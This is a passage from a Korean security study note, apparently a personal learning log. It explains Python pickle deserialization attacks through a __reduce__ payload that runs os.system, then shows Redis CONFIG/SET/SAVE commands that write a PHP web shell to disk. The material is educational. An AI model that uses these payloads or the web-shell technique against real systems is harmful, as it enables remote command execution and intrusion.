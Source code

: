             class TestClass:
                def __init__(self, a, b):
                    self.A = a
                    self.B = b
            
            ClassA = TestClass(31337, 10001) # TestClass를 생성하여 ClassA로 할당
            ClassA_dump = pickle.dumps(ClassA) # 31337과 10001을 가지는 ClassA를 직렬화함
            print(ClassA_dump) # 출력: b"\x80\x03cmain\nTestClass\nq\x00)\x81q\x01}q\x02(X\x01\x00\x00\x00Aq\x03MizX\x01\x00\x00\x00Bq\x04M\x11'ub."

            ClassB = pickle.loads(ClassA_dump) # ClassA를 역직렬화한 데이터를 ClassB에 저장함
            print(ClassB.A, ClassB.B) # 출력: 31337 10001
            ```
    - 공격자는 역직렬화 과정을 악용하여 악의적인 행위를 수행하거나, 특정 상황에서 호출되는 메소드를 이용해 공격할 수 있음
* pickle 모듈을 이용한 Serialize/Deserialize 공격
    - [pickle 모듈](https://docs.python.org/3/library/pickle.html)
        + 객체를 직렬화하여 팡리에 저장할 수 있는 기능과 파일에 저장된 객체를 가져와 역직렬화하는 기능을 제공함
            - 아래와 같이 공식문서에서는 신뢰할 수  있는 데이터에 한하여 역직렬화를 수행해라는 경고문이 존재함
                <img width="814" alt="pickle 경고문" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/4272541c-8dd8-40b3-a163-892362dafd89">
        + ```object.__reduce__()```: 객체 계층 구조를 unpickling할 때 객체를 재구성하는 튜플을 반환해주는 메소드 (호출 가능한 객체를 반환해줄 수 있음)
            - 호출 가능한 객체에 ```system```과 같이 명령어를 실행할 수 있는 함수를 반환하면 시스템 명령어를 실행할 수 있다는 의미
                ```python
                # __reduce__를 이용한 명령어 실행 예제
                import pickle
                import os # os.system(): 전달된 인자를 셸 프로그램에 전달해 명령어를 실행할 수 있는 파이썬 함
                
                class TestClass:
                    def __reduce__(self):
                        return os.system, ("id", )
                
                ClassA = TestClass()
                ClassA_dump = pickle.dumps(ClassA) # ClassA를 직렬화
                print(ClassA_dump) # 출력: b'\x80\x03cposix\nsystem\nq\x00X\x02\x00\x00\x00idq\x01\x85q\x02Rq\x03.'
                
                pickle.loads(ClassA_dump) # ClassA_dump를 역직렬화 → 역직렬화 수행 과정 중에 id 명령어가 실행되어 uid, gid, groups에 대한 정보가 출력됨
                ```

<br/><br/>

### Redis 명령어를 이용한 공격
#### Redis 명렁어: SAVE
* Redis는 메모리(In-Memory) 데이터베이스로, 휘발성을 갖는 메모리에 데이터를 저장하기 때문에 데이터 손실 방지를 위해 일정 시간마다 메모리 데이터를 파일 시스템에 저장함
    -  ```SAVE``` 명령어를 사용하여 메모리의 데이터를 파일 시스템에 저장할 수 있음
        | commands | syntax | description | 공식 문서 |
        |----|-----|-----------|-----|
        | SAVE | ```SAVE``` | RDB 파일 형식으로 Redis 인스턴스 내부의 모든 데이터에 대한 특정 시점의 스냅샵을 생성하는 데이터 세트의 동기식 저장(synchronous save)을 수행함 → 명령 성공 시 OK를 반환함 | 📚 [Redis SAVE](https://redis.io/commands/save/)|
        + 메모리 데이터를 저장하는 파일의 저장 주기를 지정하거나 즉시 저장할 수 있음
        + 저장되는 파일의 경로와 이름, 그리고 저장할 데이터를 함께 설정할 수 있음
    - ```SAVE``` 명령어를 이용한 웹 셸 삽입 예시
        ```
        CONFIG set dir /tmp
        CONFIG set dbfilename redis.php
        SET test "<?php system($_GET['cmd']); ?>"
        SAVE
        ```
        + 파일 저장 경로(dir)를 "/tmp"로, 파일 이름(dbfilename)을 redis.php"로 지정한 다음 셸을 실행하는 PHP 코드를 작성하고 이를 저장함(SAVE)
            - 성공적으로 실행되면 redis.php 생성되고 공격자는 이를 통해서 PHP 등의 다른 애플리케이션과 연계해 공격을 수행할 수 있음
